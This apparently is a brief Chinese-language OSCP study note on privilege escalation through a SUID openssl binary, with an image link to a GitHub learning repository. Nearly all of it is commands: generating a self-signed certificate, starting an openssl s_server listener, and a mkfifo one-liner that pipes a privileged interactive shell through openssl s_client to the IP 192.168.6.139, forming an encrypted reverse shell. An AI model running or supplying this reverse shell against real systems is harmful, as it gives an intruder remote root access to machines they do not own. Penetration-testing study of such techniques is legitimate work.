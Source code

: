 #openssl suid提权

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345
```

在随意一台设备上以root身份执行以下命令
```
mkfifo /tmp/s; /bin/sh -p -i < /tmp/s 2>&1 | openssl s_client -quiet -no_ign_eof -connect 192.168.6.139:12345 > /tmp/s; rm /tmp/s
```

![openssl](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-openssl.png)